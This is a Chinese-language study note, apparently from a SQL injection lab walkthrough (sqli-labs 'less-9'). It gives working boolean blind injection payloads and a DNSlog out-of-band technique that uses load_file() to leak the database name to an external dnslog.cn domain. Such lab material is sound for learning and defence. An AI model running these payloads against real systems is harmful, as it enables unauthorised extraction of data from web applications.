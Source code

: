 适用于页面只有真值、假值两种情况。手工布尔盲注费时费力。

1. 先判断闭合方式/页面的真假性：and 1=1, and 1=2

2. ```sql
   ?id=1' and length((select database())) > 9 --+
   ```

3. 通过调整参数得知 select database() 返回值的长度

4. ```sql
   ?id=1' and ascii((select database())) > 100 --+
   ```

5. 通过调整参数得知 database 的第一个字符的 ascii 码值

6. 利用 substr 选择查看其他位置上的字母（substr() 和 substring() 没有区别，下标从1开始）

7. ```sql
   ?id=1' and ascii(substr((select database()),2,1)) > 100 --+
   ```

8. 依此类推重复之前题目的方法

## less-9_dnslog
### DNSlog 渗透

DNSLog渗透是一种利用DNS（域名系统）协议进行攻击和信息收集的技术。其原理基于DNS协议的特性，即将域名解析为IP地址。攻击者可以创建一个恶意的DNS服务器，当受害者的计算机尝试解析特定的域名时，DNS服务器会记录请求，并将请求信息发送给攻击者，从而实现信息收集。

当我们发送给服务器的代码会执行但缺少回显的时候，dnslog 相当于给了我们一个回显的窗口。我们的目标就是，让目标服务器把我们的代码执行以后的返回值和域名连接起来，对指定域名进行访问从而留下痕迹。

1. 在 www.dnslog.cn 中搞一个域名，比如说这里搞到的是：sy119q.dnslog.cn

2. 构造 sql 语句：

3. ```sql
   select load_file(concat("//",(select database()),".sy119q.dnslog.cn/anyfile.txt"))
   ```

4. 注意：不要漏掉中间的 “.”，也不要忘了再最后加一个文件的名字。看到页面打着转转就知道大概率成功了，因为你的文件名是乱填的，它不可能找得到

5. 点击 dnslog 刷新按钮，即可看到目标服务器的请求



load_file() 既可以读取本机文件（看对方有没有放开这个权限），也可以读取互联网上的文件

似乎只能用于windows服务器上

双斜杠可以改成 4 个反斜杠

双反斜杠代表Microsoft Windows通用命名约定（UNC）的文件和目录路径格式利用任何以下扩展存储程序引发DNS地址解析，4 个反斜杠是因为考虑转义因素

需要打开文件读写权限

## less-9_dnslogsqlinj
